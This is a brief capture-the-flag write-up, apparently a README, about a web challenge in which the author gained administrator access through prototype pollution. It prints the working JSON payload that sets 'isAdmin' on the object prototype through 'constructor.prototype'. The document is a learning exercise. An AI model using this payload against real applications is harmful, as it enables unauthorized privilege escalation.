



So in this web challange i had to login as the administrator to find the flag. Wtaht drew my attentio was this code 

With the power of insering a JSON i could gain access

The payload that worked was:
{
    "options": {
        "constructor": {
            "prototype": {
                "isAdmin": true
            }
        }
    }
}

 Proof of success came later when a subsequent file upload resulted in a JSON response where all objects had inherited the "isAdmin": true property.